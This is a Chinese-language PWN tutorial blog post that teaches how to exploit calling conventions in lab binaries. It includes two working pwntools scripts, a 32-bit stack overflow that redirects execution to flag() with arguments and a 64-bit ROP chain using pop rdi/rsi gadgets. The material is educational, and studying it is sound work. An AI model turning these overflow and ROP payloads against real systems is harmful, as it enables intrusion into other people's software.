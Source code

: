 ```yaml
---
title: 攻击调用约定
subtitle: 利用调用约定
date: 2023-08-11T15:31:21+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: false
lightgallery: true
password:
message:
repost:
  enable: false
  url:
---
```


<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

p = process('./vuln-32')

# Padding 到 EIP
payload = b'A' * 52
# flag() 的地址
payload += p32(0x080491c7)
# 返回地址 - 不在乎完成后是否崩溃
payload += p32(0x0)
# 第一个参数
payload += p32(0xdeadc0de)
# 第二个参数
payload += p32(0xc0ded00d)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

# Padding
payload = b'A' * 56
# pop rdi; ret
payload += p64(POP_RDI)
# 进入 rdi 的值 - 第一个参数
payload += p64(0xdeadc0de)
# pop rsi; pop r15; ret
payload += p64(POP_RSI_R15)
# 进入 rsi 的值 - 第二个参数
payload += p64(0xc0ded00d)
# 进入 r15 的值 - 不重要
payload += p64(0x0)
# flag() 的地址
payload += p64(0x40116f)
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

